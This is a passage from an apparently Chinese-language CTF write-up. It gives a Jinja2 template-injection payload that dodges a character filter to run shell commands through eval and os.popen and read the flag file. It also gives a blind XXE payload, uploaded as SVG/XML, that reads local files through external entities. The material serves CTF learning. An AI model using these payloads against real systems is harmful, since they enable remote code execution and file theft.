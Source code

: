 不能用`[]`可以使用`.get()`绕过，被过滤的字符串可以拆分成2个字符串或者使用格式化字符串的方法。

```python
{{vvv.__class__.__init__.__globals__.get("__bui"+"ltins__").get("e"+"val")("__imp"+"ort__(\"o"+"s\").po"+"pen(\"ls\").read()")}}
```

执行命令列目录，发现没有传说中的flag，但是发现了一个以数字+英文组合为文件名的文件，经过确认，就是flag

```python
{{vvv.__class__.__init__.__globals__.get("__bui"+"ltins__").get("e"+"val")("__imp"+"ort__(\"o"+"s\").po"+"pen(\"cat f41321d3b61338c8d239e75d971f34a4\").read()")}}
```

本题源码在`/app/none`路径下，也可通过构造类似命令进行读取。

### hardupload

在今年的Google CTF 中出了一道Blind XXE 题 bnv，可以做参考

不懂xxe建议先了解一波

https://www.cnblogs.com/backlion/p/9302528.html

https://xz.aliyun.com/t/3357

上传php一句话返回错误信息

```html
 For Security, our system do not allow upload xml file from now on.</b></br>Other file like png,jpg,rar,zip...etc is welcome</br>
```

可以上传图片等文件格式,恰好xml可以解析svg

**payload**

```xml
<?xml version="1.0"?>
<!DOCTYPE message [
  <!ELEMENT message ANY>
  <!ENTITY % para1 SYSTEM "file:///hhh_Th1s_y0uR_f14g"> //根据报错回显找到flag路径
<!ENTITY % para '
<!ENTITY &#x25; para2 "<!ENTITY &#x26;#x25; error SYSTEM
&#x27;file:///&#x25;para1;&#x27;>">
&#x25;para2;
'>
%para;
]>
<message>10</message>
```

注意指定MIME类型 Content-Type: text/xml

## crypto

### MaybeBase

